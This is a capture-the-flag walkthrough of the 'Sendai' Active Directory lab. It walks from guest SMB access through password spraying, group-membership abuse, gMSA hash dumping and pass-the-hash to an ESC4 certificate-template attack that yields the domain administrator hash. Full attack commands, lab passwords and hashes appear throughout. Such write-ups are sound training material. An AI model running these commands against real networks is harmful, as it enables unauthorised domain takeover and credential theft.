 
![](Sendai_Cover.png)

## INFO

```
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
443/tcp  open  https
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```

Guest Level Access in the smb share . Lets Explore !


![](Guest_Level.png)


![](Shares_Content.png)

We found potential user accounts and a note which states that ``All user accounts with insecure passwords have been expired as a precautionary measure. This means that affected users will be required to change their passwords upon their next login.`` Which is a good sign for a penetration-tester. 


## INITIAL ACCESS

Checkin' with common credentials !
```
└─# crackmapexec smb 10.10.127.65 -u user_lst -p '' --continue-on-success

[-] sendai.vl\Elliot.Yates: STATUS_PASSWORD_MUST_CHANGE 
[-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE

[-] sendai.vl\Susan.Harper:Sendai2023 STATUS_PASSWORD_MUST_CHANGE

[-] sendai.vl\Lisa.Williams:Summer2023 STATUS_PASSWORD_MUST_CHANGE
```

Changing the password ;

```
─# impacket-changepasswd sendai.vl/Lisa.Williams:Summer2023@10.10.127.65
```

![](Password_Change.png)


As we found valid domain user . Now it time to enumerate shares , ADCS , run bloodhound.

Now , we got access to the config share , where there is .sqlconfig file with credentials of the database. But mssql isnt accessible via external network . Gotta wait till we breach the machine !


![](sql.config.png)


```
└─# bloodhound-python --username lisa.williams --password 'p@ssw0rd' --nameserver 10.10.127.65 --domain sendai.vl --domain-controller DC.sendai.vl --dns-tcp --collectionmethod all --zip
```



![](Bloodhound_.png)

Being member of the Support Group we have `Generic All` privilege !

```
Full control of a group allows you to directly modify group membership of the group.
```

Why this attack ? Members of ADMSVC group can `ReadGMSAPassword` od the MGTSVC$ account which can PSRemote to the machine.


![](Bloodhound_Gmsa.png)


Lets attack :
--> Add lisa.williams to the ADMSVC group .

```
└─# net rpc group addmem "ADMSVC" "lisa.williams" -U "sendai.vl"/"lisa.williams"%"p@ssw0rd" -S "dc.sendai.vl"
```

--> Read GMSA Password .

```
└─# python gMSADumper.py -u lisa.williams -p 'p@ssw0rd' -d sendai.vl
```

![](GMSA_CREDS.png)

Cool ! We got mgtsvc$ account hash.

```
└─# evil-winrm -i sendai.vl -u mgtsvc$ -H 582bdf7c5328ca2bf3de975a6ed4b7c7
```


# ESC4 Attack

Running  [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck) We found creds of clifford.davey.

![](Clifford_Davey.png)

clifford.davey  ::  RFmoB2WplgE_3p 

This guy is CA-OPERATOR !

![](CA-Operator.png)



```
└─# certipy-ad find -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -enabled -dc-ip 10.10.127.65 -stdout -vulnerable
```


![](ESC4_CA.png)


Lets attack the vulnerability and gain access as DA. [ESC4_Attack](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc4)


ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.

```
└─# certipy-ad template -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -template 'SendaiComputer'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'SendaiComputer'
[*] Successfully updated 'SendaiComputer'
```


The certificate template is now vulnerable to the ESC1 technique.

Therefore, we can now request a certificate based on the ESC4 template and specify an arbitrary SAN with the `-upn` or `-dns` parameter.

```
└─# certipy-ad req -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -template 'SendaiComputer' -ca 'sendai-DC-CA' -upn 'administrator@sendai.vl'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator@sendai.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

```
└─# certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.127.65
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sendai.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cfb106feec8b89a3d98e14dcbe8d087a
```

Cool ! The DC has been pwned !!



As we have mssql credentials , and service running . We can exploit it using the silver tickets.

